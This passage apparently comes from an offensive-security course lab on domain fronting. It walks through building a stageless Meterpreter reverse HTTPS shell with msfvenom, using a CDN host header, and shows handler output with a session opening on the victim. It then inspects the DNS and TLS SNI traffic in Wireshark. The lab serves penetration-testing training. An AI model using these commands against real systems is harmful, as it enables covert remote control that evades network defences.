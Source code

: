 On our Kali machine, we'll create our reverse HTTPS Meterpreter shell, where we set good.com as the _LHOST_ and cdn123.offseccdn.com as the _HttpHostHeader_. We'll also configure a listener to handle this shell. Note that here we will use a stageless payload, so we don't need to configure the _OverrideLHOST_ and _OverrideRequestHost_ options we discussed in the previous section.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```

> Listing 30 - Create an HTTPS reverse shell with msfvenom

Next, we'll transfer the payload to the victim and start a Wireshark capture so we can inspect traffic later. Finally, we'll run the payload.

```
msf5 exploit(multi/handler) > run

[-] Handler failed to bind to 206.124.122.115:443
[*] Started HTTPS reverse handler on https://0.0.0.0:443
[*] https://good.com:443 handling request from 192.168.120.21; (UUID: gklf4zr8) Redirecting stageless connection from /565XLYsZVn16GXsbJTPhXw-b83vlJF9C3018Kx2Qna04Mu7jN6LpH91I1kkDAww9cJHGlKu3zibA2e9ULmJ68e1ppmobSzbgMDuK2UIensZ3_C-LWScAH3a5lve with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://good.com:443 handling request from 192.168.120.21; (UUID: gklf4zr8) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (192.168.119.120:443 -> 192.168.120.21:48490)

meterpreter > 
```

> Listing 31 - Getting HTTP reverse shell with domain fronting

If everything was configured correctly, we should have a working reverse shell.

Let's inspect the traffic in Wireshark. We can apply a traffic filter to exclude all RDP traffic between our Kali machine and the Windows VM:

```
!(tcp.port == 3389)
```

> Listing 32 - Wireshark Traffic Filter to Exclude RDP

Next, let's inspect the DNS request:

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/ids/095d01c6d58a2f43d07dc419735fce7c-ids_df_lab_dns.png" alt="Figure 47: DNS request to good.com"><figcaption><p>Figure 47: DNS request to good.com</p></figcaption></figure>

Figure 47 shows the proper IP for good.com.

Next, we need to confirm that the client asked for the right certificate, which we can find in the TLS Client Hello packet, in the SNI field.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/ids/37d7ad2c148430454f5eac211fa3fbb7-ids_df_lab_tls_client.png" alt="Figure 48: TLS Client SNI to good.com"><figcaption><p>Figure 48: TLS Client SNI to good.com</p></figcaption></figure>

The client did, in fact, properly set the SNI field to request the certificate from good.com.

